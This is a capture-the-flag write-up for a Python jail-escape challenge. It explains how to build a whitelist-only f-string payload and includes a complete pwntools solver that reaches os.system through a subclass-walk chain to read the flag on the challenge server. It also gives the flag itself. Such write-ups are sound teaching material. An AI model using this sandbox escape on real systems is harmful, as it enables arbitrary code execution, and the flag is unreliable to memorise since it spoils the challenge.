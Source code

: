 # Avatar [52 Solves]

## Description

> The avatar is imprisoned in an ice jail. Can you help him awaken his powers?
>
> author: hweissi
>
> `nc chall.glacierctf.com 13384`
>
> Attachments: chall.py

chall.py

```python
print("You get one chance to awaken from the ice prison.")
code = input("input: ").strip()
whitelist = """gctf{"*+*(=>:/)*+*"}""" # not the flag
if any([x not in whitelist for x in code]) or len(code) > 40000:
    
    print("Denied!")
    exit(0)

eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})
```

## Flag

gctf{But_wh3n_th3_w0rld_n33d3d_h1m_m0st_h3_sp4wn3d_4_sh3ll}

## Solution

This is Python Jails Escape challenge.

A global function such as `input()` cannot be used because both `globals` and `__builtins__` is set to `{}`.

Checking an available character:

```console
$ echo 'gctf{"*+*(=>:/)*+*"}' | fold -1 | sort -u | tr -d '\n'
"()*+/:=>{}cfgt
```

Since `f` is available, f-string is useful.
`c` is available too so we can generate characters using `f"{97:c}"`.

```python
>>> f"{97:c}"
'a'
```

Numeric characters such as `0` or `1` cannot be used directly.
Instead, numbers can be generated using the equality comparison `()==()` to evaluate to `True` and the arithmetic operation of `+`.

```python
>>> f"{(()=={}):c}"
'\x00'
>>> f"{(()==()):c}"
'\x01'
>>> f"{(()==())+(()==()):c}"
'\x02'
>>> f"{(()==())+(()==())+(()==()):c}"
'\x03'
```

By using variable definitions with f-strings, it is possible to shorten the length of the generated payload.

```python
>>> f"{(null:=(()=={})):c}"
'\x00'
>>> f"{(one:=(()==())):c}"
'\x01'
>>> f"{(two:=(one+one)):c}"
'\x02'
>>> f"{(three:=(one+two)):c}"
'\x03'
```

Using these features, I will generate a payload for Remote Code Execution (RCE) Python code.
I used the following for RCE Python code:

```python
[m for m in  ().__class__.__bases__[0].__subclasses__() if m.__name__ in '_wrap_close'][0].__init__.__globals__['system']('ls -la')
```

The generated payload is expected to take a form like `f"{varia}{ble}{defen}{ition}{RCE}{code}"`.

However, there is a possibility of an error since the variable definition part is interpreted as a number.
For example:

```python
>>> eval(eval('f"{(a:=97)}print(1)"'))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1
    97print(1)
     ^
SyntaxError: invalid decimal literal
```

In order to fix this issue, setting the multiplication of the variable definition section to 0, then added 9 (`\t`).
By prefixing the payload with \t, I made it possible to execute the second eval.

```python
>>> eval(eval('f"\tprint(1)"'))
1
>>> eval(eval('f"{(tab:=9):c}print(1)"'))
1
>>> eval(eval('f"{(a:=97)*(b:=98)*(null:=0)+(tab:=9):c}print(1)"'))
1
```

### Exploit

solver.py

```python
from pwn import remote, process, context

context.log_level = "ERROR"

MAPPING = {
    0: "c",
    1: "f",
    2: "g",
    3: "t",
    4: "cc",
    5: "cf",
    6: "cg",
    7: "ct",
    8: "fc",
    9: "ff",
    10: "fg",
    11: "ft",
    12: "gc",
}


# prepare 1, 2, ... , 12 and assign it to variables
def variable_definition():
    formulas = f"""
        {MAPPING[0]}  := (()=={{}})
        {MAPPING[1]}  := (()==())
        {MAPPING[2]}  := {MAPPING[1]}  + {MAPPING[1]}
        {MAPPING[3]}  := {MAPPING[2]}  + {MAPPING[1]}
        {MAPPING[4]}  := {MAPPING[3]}  + {MAPPING[1]}
        {MAPPING[5]}  := {MAPPING[4]}  + {MAPPING[1]}
        {MAPPING[6]}  := {MAPPING[5]}  + {MAPPING[1]}
        {MAPPING[7]}  := {MAPPING[6]}  + {MAPPING[1]}
        {MAPPING[8]}  := {MAPPING[7]}  + {MAPPING[1]}
        {MAPPING[9]}  := {MAPPING[8]}  + {MAPPING[1]}
        {MAPPING[10]} := {MAPPING[9]}  + {MAPPING[1]}
        {MAPPING[11]} := {MAPPING[10]} + {MAPPING[1]}
        {MAPPING[12]} := {MAPPING[11]} + {MAPPING[1]}
    """
    formulas = formulas.replace(" ", "").strip().split("\n")

    payload = (
        "{"
        + "*".join([f"({formula})" for formula in formulas])  # multiplying anything by 0 results in 0
        + "+"
        + MAPPING[9]  # \t
        + ":c}"
    )

    return payload


# convert pycode
def rce_pycode(pycode):
    payload = ""
    for c in pycode:
        payload += "{"
        payload += f"{MAPPING[10]}*{MAPPING[ord(c) // 10]}"

        if ord(c) % 10 != 0:
            payload += f"+{MAPPING[ord(c) % 10]}"

        payload += ":c}"

    return payload


def main():
    rcecode = "[m for m in  ().__class__.__bases__[0].__subclasses__() if m.__name__ in '_wrap_close'][0].__init__.__globals__['system']('cat flag.txt')"
    payload = 'f"' + variable_definition() + rce_pycode(rcecode) + '"'

    # assertion
    whitelist = """gctf{"*+*(=>:/)*+*"}"""
    assert all([x in whitelist for x in payload]), "payload is not in whitelist"
    assert len(payload) <= 40000, f"{len(payload)=}"

    # print(payload)

    # io = process("chall.py")
    io = remote("chall.glacierctf.com", 13384)
    io.sendlineafter(b"input:", payload.encode())
    io.interactive("")


if __name__ == "__main__":
    main()
```

generated payload:

```python
f"{(c:=(()=={}))*(f:=(()==()))*(g:=f+f)*(t:=g+f)*(cc:=t+f)*(cf:=cc+f)*(cg:=cf+f)*(ct:=cg+f)*(fc:=ct+f)*(ff:=fc+f)*(fg:=ff+f)*(ft:=fg+f)*(gc:=ft+f)+fg:c}{fg*ff+f:c}{fg*fg+ff:c}{fg*t+g:c}{fg*fg+g:c}{fg*ft+f:c}{fg*ft+cc:c}{fg*t+g:c}{fg*fg+ff:c}{fg*t+g:c}{fg*fg+cf:c}{fg*ft:c}{fg*t+g:c}{fg*t+g:c}{fg*cc:c}{fg*cc+f:c}{fg*cc+cg:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*ff+ff:c}{fg*fg+fc:c}{fg*ff+ct:c}{fg*ft+cf:c}{fg*ft+cf:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*cc+cg:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*ff+fc:c}{fg*ff+ct:c}{fg*ft+cf:c}{fg*fg+f:c}{fg*ft+cf:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*ff+f:c}{fg*cc+fc:c}{fg*ff+t:c}{fg*cc+cg:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*ft+cf:c}{fg*ft+ct:c}{fg*ff+fc:c}{fg*ff+ff:c}{fg*fg+fc:c}{fg*ff+ct:c}{fg*ft+cf:c}{fg*ft+cf:c}{fg*fg+f:c}{fg*ft+cf:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*cc:c}{fg*cc+f:c}{fg*t+g:c}{fg*fg+cf:c}{fg*fg+g:c}{fg*t+g:c}{fg*fg+ff:c}{fg*cc+cg:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*ft:c}{fg*ff+ct:c}{fg*fg+ff:c}{fg*fg+f:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*t+g:c}{fg*fg+cf:c}{fg*ft:c}{fg*t+g:c}{fg*t+ff:c}{fg*ff+cf:c}{fg*ft+ff:c}{fg*ft+cc:c}{fg*ff+ct:c}{fg*ft+g:c}{fg*ff+cf:c}{fg*ff+ff:c}{fg*fg+fc:c}{fg*ft+f:c}{fg*ft+cf:c}{fg*fg+f:c}{fg*t+ff:c}{fg*ff+t:c}{fg*ff+f:c}{fg*cc+fc:c}{fg*ff+t:c}{fg*cc+cg:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*fg+cf:c}{fg*ft:c}{fg*fg+cf:c}{fg*ft+cg:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*cc+cg:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*fg+t:c}{fg*fg+fc:c}{fg*ft+f:c}{fg*ff+fc:c}{fg*ff+ct:c}{fg*fg+fc:c}{fg*ft+cf:c}{fg*ff+cf:c}{fg*ff+cf:c}{fg*ff+f:c}{fg*t+ff:c}{fg*ft+cf:c}{fg*gc+f:c}{fg*ft+cf:c}{fg*ft+cg:c}{fg*fg+f:c}{fg*fg+ff:c}{fg*t+ff:c}{fg*ff+t:c}{fg*cc:c}{fg*t+ff:c}{fg*ff+ff:c}{fg*ff+ct:c}{fg*ft+cg:c}{fg*t+g:c}{fg*fg+g:c}{fg*fg+fc:c}{fg*ff+ct:c}{fg*fg+t:c}{fg*cc+cg:c}{fg*ft+cg:c}{fg*gc:c}{fg*ft+cg:c}{fg*t+ff:c}{fg*cc+f:c}"
```

Result:

```console
$ python3 solver.py
 gctf{But_wh3n_th3_w0rld_n33d3d_h1m_m0st_h3_sp4wn3d_4_sh3ll}
```

## References

- [2. Lexical analysis — Python 3.12.0 documentation](https://docs.python.org/3/reference/lexical_analysis.html)
- [The Python Standard Library — Python 3.12.0 documentation](https://docs.python.org/3/library/index.html)
